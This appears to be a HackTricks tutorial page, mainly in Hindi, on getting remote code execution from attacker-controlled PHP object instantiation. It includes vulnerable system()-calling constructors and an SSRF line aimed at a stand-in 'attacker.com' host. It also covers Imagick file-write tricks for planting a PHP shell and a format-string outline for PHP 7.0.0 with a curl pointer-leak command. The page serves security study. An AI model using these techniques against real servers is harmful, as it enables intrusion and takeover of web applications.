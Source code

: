 # PHP - RCE ऑब्जेक्ट निर्माण का दुरुपयोग: new $_GET["a"]($_GET["b"])

{{#include ../../../banners/hacktricks-training.md}}

यह मूल रूप से [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) का सारांश है

## परिचय

नए मनमाने ऑब्जेक्ट्स का निर्माण, जैसे `new $_GET["a"]($_GET["a"])`, Remote Code Execution (RCE) का कारण बन सकता है, जैसा कि [**writeup**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) में विस्तार से बताया गया है। यह दस्तावेज RCE प्राप्त करने की विभिन्न रणनीतियों को उजागर करता है।

## कस्टम क्लासेस या Autoloading के माध्यम से RCE

सिंटैक्स `new $a($b)` का उपयोग किसी ऑब्जेक्ट को instantiate करने के लिए किया जाता है जहाँ **`$a`** क्लास का नाम दर्शाता है और **`$b`** constructor को पास किया गया पहला argument है। ये वेरिएबल्स GET/POST जैसे user inputs से आ सकते हैं, जहाँ वे strings या arrays हो सकते हैं, या JSON से, जहाँ वे अन्य प्रकारों के रूप में प्रकट हो सकते हैं।

नीचे दिए गए कोड स्निपेट पर विचार करें:
```php
class App {
function __construct ($cmd) {
system($cmd);
}
}

class App2 {
function App2 ($cmd) {
system($cmd);
}
}

$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```
इस मामले में, `$a` को `App` या `App2` और `$b` को एक सिस्टम कमांड (जैसे, `uname -a`) सेट करने पर वह कमांड निष्पादित हो जाती है।

**Autoloading functions** का दुरुपयोग किया जा सकता है अगर ऐसी कोई क्लासेस सीधे उपलब्ध न हों। ये फ़ंक्शन आवश्यकतानुसार फ़ाइलों से क्लासेस को स्वचालित रूप से लोड करते हैं और इन्हें `spl_autoload_register` या `__autoload` का उपयोग करके परिभाषित किया जाता है:
```php
spl_autoload_register(function ($class_name) {
include './../classes/' . $class_name . '.php';
});

function __autoload($class_name) {
include $class_name . '.php';
};

spl_autoload_register();
```
The behavior of autoloading varies with PHP versions, offering different RCE possibilities.

## Built-In Classes के माध्यम से RCE

कस्टम क्लासेस या autoloaders का अभाव होने पर, **built-in PHP classes** RCE के लिए पर्याप्त हो सकती हैं। इन क्लासेस की संख्या PHP संस्करण और एक्सटेंशन्स के आधार पर लगभग 100 से 200 के बीच होती है। इन्हें `get_declared_classes()` का उपयोग करके सूचीबद्ध किया जा सकता है।

दिलचस्प constructors को reflection API के माध्यम से पहचाना जा सकता है, जैसा कि निम्न उदाहरण और लिंक [https://3v4l.org/2JEGF](https://3v4l.org/2JEGF) में दिखाया गया है।

**विशेष तरीकों के माध्यम से RCE में शामिल हैं:**

### **SSRF + Phar Deserialization**

The `SplFileObject` class enables SSRF through its constructor, allowing connections to any URL:
```php
new SplFileObject('http://attacker.com/');
```
SSRF Phar protocol का उपयोग करके PHP के 8.0 से पहले के संस्करणों में deserialization attacks का कारण बन सकता है।

### **PDOs का शोषण**

PDO class constructor DSN strings के माध्यम से डेटाबेस से कनेक्शन की अनुमति देता है, जो संभावित रूप से file creation या अन्य interactions को सक्षम कर सकता है:
```php
new PDO("sqlite:/tmp/test.txt")
```
### **SoapClient/SimpleXMLElement XXE**

libxml2 के संस्करण पर निर्भर करते हुए, PHP के संस्करण 5.3.22 और 5.4.12 तक `SoapClient` और `SimpleXMLElement` constructors के माध्यम से XXE हमलों के प्रति संवेदनशील थे।

## RCE via Imagick Extension

एक प्रोजेक्ट की निर्भरताओं के विश्लेषण में पता चला कि नए objects instantiate करके **Imagick** को **command execution** के लिए leverage किया जा सकता है। यह कमजोरियों के शोषण का एक मौका प्रस्तुत करता है।

### VID parser

VID parser की यह क्षमता कि वह filesystem में किसी भी निर्दिष्ट path पर content लिख सके, पहचानी गई। इससे किसी वेब-एक्सेसिबल directory में एक PHP shell रखने का मार्ग खुल सकता है, जिससे Remote Code Execution (RCE) प्राप्त हो सकता है।

#### VID Parser + File Upload

ध्यान दिया गया है कि PHP अपलोड की गई फाइलों को अस्थायी रूप से `/tmp/phpXXXXXX` में स्टोर करता है। Imagick में VID parser, **msl** protocol का उपयोग करते हुए, file paths में wildcards को संभाल सकता है, जिससे अस्थायी फ़ाइल को किसी चुनी हुई लोकेशन पर स्थानांतरित करना संभव होता है। यह तरीका filesystem में arbitrary file writing हासिल करने का एक अतिरिक्त तरीका प्रदान करता है।

### PHP Crash + Brute Force

एक तरीका जो [**original writeup**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) में वर्णित है, ऐसी फाइलें अपलोड करने पर आधारित है जो deletion से पहले सर्वर crash कर देती हैं। temporary file के नाम को brute-force करके, Imagick के लिए arbitrary PHP code execute करना संभव हो जाता है। हालांकि, यह तकनीक केवल ImageMagick के एक outdated version में ही प्रभावी पाई गई।

## Format-string in class-name resolution (PHP 7.0.0 Bug #71105)

जब user input class name को नियंत्रित करता है (उदा., `new $_GET['model']()`), PHP 7.0.0 ने `Throwable` refactor के दौरान एक अस्थायी bug पेश किया जहाँ engine resolution के दौरान class name को गलती से printf format string के रूप में ट्रीट करता था। इससे PHP के अंदर classic printf-style primitives सक्षम होते हैं: leaks with `%p`, write-count control width specifiers के साथ, और arbitrary writes with `%n` in-process pointers (उदाहरण के लिए, GOT entries on ELF builds) के खिलाफ।

न्यूनतम repro vulnerable पैटर्न:
```php
<?php
$model = $_GET['model'];
$object = new $model();
```
Exploitation outline (from the reference):
- क्लास नाम में `%p` के माध्यम से पते leak करके एक लिखने-योग्य लक्ष्य खोजें:
```bash
curl "http://host/index.php?model=%p-%p-%p"
# Fatal error includes resolved string with leaked pointers
```
- पोजीशनल पैरामीटर्स और width specifiers का उपयोग करके एक सटीक बाइट-काउंट सेट करें, फिर `%n` का उपयोग कर उस मान को स्टैक पर पहुँच योग्य पते पर लिखें, GOT slot (e.g., `free`) को लक्ष्य करके आंशिक रूप से इसे `system` में overwrite करें।
- हाइजैक की गई फ़ंक्शन को ट्रिगर करने के लिए ऐसा क्लास नाम पास करें जिसमें एक shell pipe हो ताकि `system("id")` पहुँच सके।

Notes:
- केवल PHP 7.0.0 पर काम करता है (Bug [#71105](https://bugs.php.net/bug.php?id=71105)); बाद के रिलीज़ में ठीक कर दिया गया। Severity: critical अगर arbitrary class instantiation मौजूद है।
- सामान्य payloads कई `%p` को chain करके स्टैक पर नेविगेट करते हैं, फिर `%.<width>d%<pos>$n` का उपयोग कर आंशिक overwrite कराते हैं।

## References

- https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/
- https://blog.orange.tw/posts/2025-08-the-art-of-php-ch/

{{#include ../../../banners/hacktricks-training.md}}
